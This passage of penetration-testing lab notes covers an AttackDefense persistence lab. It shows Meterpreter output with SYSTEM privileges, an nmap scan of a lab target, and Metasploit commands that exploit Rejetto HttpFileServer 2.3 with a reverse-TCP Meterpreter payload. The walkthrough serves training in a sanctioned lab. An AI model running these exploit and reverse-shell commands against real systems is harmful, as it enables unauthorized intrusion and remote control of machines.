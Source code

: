 ```bash
getuid
	Server username: NT AUTHORITY\SYSTEM

sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows
```

------

## Lab 6 - Persistence

> 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> - Target IP: `10.2.20.185`
> - Metasploit **persistence** modules

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.20.185
setg RHOST 10.2.20.185
workspace -a Persistence
db_nmap -sV 10.2.20.185
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49156/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```
